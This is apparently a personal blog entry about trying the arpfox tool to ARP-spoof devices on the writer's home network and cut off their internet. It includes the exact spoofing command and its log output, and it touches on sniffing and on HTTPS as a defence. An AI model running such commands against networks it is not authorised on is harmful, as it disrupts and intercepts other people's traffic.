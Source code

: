 # June 20th 2020

Today as usual I was thinking what to do. Long ago I was trying out arp spoof
attack, for which I was checking out existing tools, especially in golang,
since the tools that I used when I was young was mostly C/C++ I think and part
of the packages present in kali linux OS. And I'm on Mac OS currently, and I
wanted to also see if I could build a tool. It's fun you know.

So, I found quite some tools I think. One of them was `arpfox`. Whenever I tried
the tools, I failed at using them. I didn't know what it was doing. And gave up
very soon. Today I was thinking if I should build a tool already or try using
`arpfox` again.

Fortunately I tried again, and properly this time, after skimming the readme.
There was a really nice practical example in it which explained stuff.

My idea was to basically just block Internet by routing the traffic from all
devices to my device by masquerading my device as the router, using arp spoof
by saying the router's IP address has my MAC address and not the actual router
MAC address. This is what I did:

```bash
$ sudo arpfox -t 192.168.1.1-4 192.168.1.1 -w 0.1
Password:
2020/06/20 20:14:52 ARP packet (1): 192.168.1.1 (18:65:90:e0:9e:4b) -> 192.168.1.1 (8c:e1:17:99:c3:e2)
2020/06/20 20:14:52 ARP packet (1): 192.168.1.4 (18:65:90:e0:9e:4b) -> 192.168.1.2 (00:00:00:00:00:00)
2020/06/20 20:14:53 ARP packet (1): 192.168.1.1 (18:65:90:e0:9e:4b) -> 192.168.1.2 (70:bb:e9:25:da:c8)
2020/06/20 20:14:53 ARP packet (1): 192.168.1.4 (18:65:90:e0:9e:4b) -> 192.168.1.3 (00:00:00:00:00:00)
2020/06/20 20:14:54 Could not retrieve 192.168.1.3's MAC address: Lookup failed.
2020/06/20 20:14:54 ARP packet (1): 192.168.1.1 (18:65:90:e0:9e:4b) -> 192.168.1.4 (18:65:90:e0:9e:4b)
2020/06/20 20:14:54 ARP packet (1): 192.168.1.1 (18:65:90:e0:9e:4b) -> 192.168.1.4 (18:65:90:e0:9e:4b)
2020/06/20 20:14:57 ARP packet (1): 192.168.1.1 (18:65:90:e0:9e:4b) -> 192.168.1.1 (8c:e1:17:99:c3:e2)
2020/06/20 20:14:57 ARP packet (1): 192.168.1.1 (18:65:90:e0:9e:4b) -> 192.168.1.2 (70:bb:e9:25:da:c8)
2020/06/20 20:14:57 ARP packet (1): 192.168.1.4 (18:65:90:e0:9e:4b) -> 192.168.1.3 (00:00:00:00:00:00)
^C2020/06/20 20:14:58 'stop' signal received; stopping...
2020/06/20 20:14:58 Could not retrieve 192.168.1.3's MAC address: Lookup failed.
2020/06/20 20:14:58 Cleaning up and re-ARPing targets...
^C2020/06/20 20:15:00 Could not retrieve 192.168.1.3's MAC address: Lookup failed.
^C2020/06/20 20:15:00 Could not retrieve 192.168.1.3's MAC address: Lookup failed.
^C2020/06/20 20:15:00 Could not retrieve 192.168.1.3's MAC address: Lookup failed.
^C2020/06/20 20:15:01 Could not retrieve 192.168.1.3's MAC address: Lookup failed.
^C2020/06/20 20:15:01 Could not retrieve 192.168.1.3's MAC address: Lookup failed.
^C^C2020/06/20 20:15:02 Could not retrieve 192.168.1.3's MAC address: Lookup failed.
^C^C2020/06/20 20:15:03 Could not retrieve 192.168.1.3's MAC address: Lookup failed.
^C2020/06/20 20:15:03 Could not retrieve 192.168.1.3's MAC address: Lookup failed.
^C2020/06/20 20:15:03 Could not retrieve 192.168.1.3's MAC address: Lookup failed.
^C^C2020/06/20 20:15:04 Could not retrieve 192.168.1.3's MAC address: Lookup failed.
```

And the example also told how to sniff the packets coming to the machine and
how to forward them to the real machine that was intended to get the packet
and it also spoke about how to prevent such attacks - of course by using
encrypted communications, for example using HTTPS, so that most of the content
is not known to the sniffer, but they might know some basic metadata about the
communications, possible.

I was also checking the code a bit. Just the file names, imports and stuff.
Noticed that it uses some OS specific stuff and then some general stuff.
They used the google's library `gopacket` - https://github.com/google/gopacket

I think it will be nice to checkout the complete code sometime.

From what I can see, with arpfox, as a user, I cannot make some other host in
the network masquerade as some random host in the network. I can only make my
computer masquerade as some random host in the network. But I guess it shouldn't
be that tough to implement it with the given code. I might try it sometime.

Let's see. Also, I could probably see other kind of spoofing attacks too! :)
Idk what else is out there, like DNS Spoof? I'll have to check it out. 
